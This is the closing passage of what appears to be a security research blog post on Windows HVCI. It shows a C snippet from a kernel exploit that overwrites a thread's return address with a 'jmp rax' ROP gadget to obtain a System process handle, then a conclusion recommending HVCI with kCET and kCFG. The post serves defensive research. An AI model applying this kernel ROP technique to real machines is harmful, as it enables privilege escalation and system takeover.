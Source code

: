 ```c
	write64(inHandle, retAddr + 0x88, ntBase + 0xab533e);		// 0x140ab533e: jmp rax; \x48\xff\xe0 (1 found)
	
	//
	// Resume the thread to kick off execution
	//
	ResumeThread(dummyThread);

	//
	// Sleep Project2.exe for 1 second to allow the print update
	// to accurately display the System process handle
	//
	Sleep(1000);

	//
	// Print update
	//
	printf("[+] System process HANDLE: 0x%p\n", systemprocHandle);
```
<img src="{{ site.url }}{{ site.baseurl }}/images/HVCI56.png" alt="">

What's nice about this technique is the fact that all parameters can be declared in user-mode using C - meaning we don't have to manually construct our own structures, like a `CLIENT_ID` structure, in the `.data` section of a driver, for instance.

Conclusion
---
I would say that HVCI is easily one of the most powerful mitigations there is. As we saw - we actually didn't "bypass" HVCI. HVCI mitigates unsigned-code execution in the VTL 0 kernel - which is something we _weren't_ able to achieve. However, Microsoft seems to be dependent on Kernel CET - and when you combine kCET, kCFG, and HVCI - only then do you get coverage against this technique.

HVCI is probably not only the most complex mitigation I have looked at, not only is it probably the best, but it taught me a ton about something I didn't know (hypervisors). HVCI, even in this situation, did its job and everyone should please go and enable it! When coupled with CET and kCFG - it will make HVCI resilient against this sort of attack (just like how MBEC makes HVCI resilient against PTE modification). 


